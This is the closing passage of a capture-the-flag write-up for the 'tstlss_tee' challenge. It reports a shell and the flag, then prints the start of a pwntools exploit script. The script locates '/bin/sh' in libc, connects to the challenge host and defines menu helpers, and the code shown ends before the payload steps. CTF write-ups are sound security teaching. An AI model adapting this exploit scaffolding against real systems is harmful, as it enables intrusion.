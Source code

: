 We can finally get a shell and used it to read the flag: `tctf{wh0_doesnt_like_tee?}`.

Thanks to the challenge author, this one was pretty fun!

Here’s the entire exploit code:

```py
from pwn import *


# Path to the target binary
BINARY = '../binaries/tstlss_tee'

LIBC = '../binaries/libc-2.28.so'

# Host and port where the challenge is running
HOST = 'hitme.tasteless.eu'
PORT = 10301


# When launched with "remote" in the command line arguments, the script will
# connect with the remote target. Otherwise it will spawn an instance of the
# target locally and interact with that.
REMOTE = 'remote' in sys.argv


e = ELF(BINARY)
context.binary = e

if LIBC and os.path.exists(LIBC):
    libc = ELF(LIBC)
    binsh_addr = next(libc.search('/bin/sh'))
elif e.libc:
    libc = e.libc
    binsh_addr = next(libc.search('/bin/sh'))


if REMOTE:
    r = remote(HOST, PORT)
else:
    r = process(['./run.sh'], raw=True)


def add(name, description):
    r.sendlineafter('What do you want to do?', 'a')
    r.sendlineafter('Name: ', name)
    r.sendlineafter('Description length: ', str(len(description) + 1))
    r.sendlineafter('Description: ', description)
    r.sendlineafter('Steep time: ', '1')


def modify(id, name, description):
    r.sendlineafter('What do you want to do?', 'm')
    r.sendlineafter('id: ', str(id))

    if name:
        r.sendlineafter('Modify name? [y/n] ', 'y')
        r.sendlineafter('New name: ', name)
    else:
        r.sendlineafter('Modify name? [y/n] ', 'n')

    if description:
        r.sendlineafter('Modify description? [y/n] ', 'y')
        r.sendlineafter('New description length: ', str(len(description)))
        r.sendlineafter('New description: ', description)
```